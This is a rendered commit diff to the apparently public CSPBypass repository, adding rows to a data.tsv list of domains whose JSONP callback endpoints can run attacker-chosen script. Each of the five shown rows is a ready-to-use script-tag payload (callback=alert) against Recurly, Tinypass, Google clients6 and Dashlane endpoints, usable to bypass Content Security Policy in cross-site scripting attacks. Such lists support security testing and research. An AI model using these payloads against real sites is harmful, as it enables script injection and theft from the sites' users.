

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update data.tsv
A bunch of new callbacks :)

```diff
--- a/data.tsv
+++ b/data.tsv
+row 34: api.recurly.com <script src="https://api.recurly.com/js/v1/engage/settings?callback=alert(1)"></script>
+row 54: buy.tinypass.com <script src="https://buy.tinypass.com/api/v3/anon/template/loadTemplateContext?callback=alert"></script>
+row 72: clientauthconfig.clients6.google.com <script src="https://clientauthconfig.clients6.google.com/v1/clients?callback=alert(1)"></script>
+row 82: cloudusersettings-pa.clients6.google.com <script src="https://cloudusersettings-pa.clients6.google.com/v1alpha1/settings/CONSOLE_PINS/keys/CLOUD?callback=alert(1)"></script>
+row 125: kck3hlb9.dashlane.com <script src="https://kck3hlb9.dashlane.com/1/installerlog/create?callback=alert"></script>
```
Also changed, not shown: 19 added rows elsewhere in this file.
